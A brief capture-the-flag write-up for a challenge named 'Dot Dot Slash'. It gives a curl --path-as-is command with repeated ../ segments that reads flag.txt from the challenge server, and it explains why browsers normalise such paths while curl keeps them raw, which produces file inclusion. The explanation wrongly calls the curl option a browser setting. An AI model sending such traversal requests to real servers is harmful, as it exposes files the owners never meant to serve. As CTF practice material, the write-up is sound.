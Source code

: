 # Dot Dot Slash

solution:
`curl --verbose --path-as-is 'http://skrctf.me:400/../../../../../../flag.txt'`

*Thanks to my friend who help me for the chal with a clear and understanding explaination*
```
Because browser will automatically interpret ../../.../../../ before passing to server, meaning that if u type http://xxx.com/../../../../flag.txt in browser will resulted in http://xxx.com/flag.txt before passing to server.

So we can use curl feature called --path-as-is to tell browser to not auto interpret the ../, hence when it passed to server, resulted in LFI (See source code) 
```
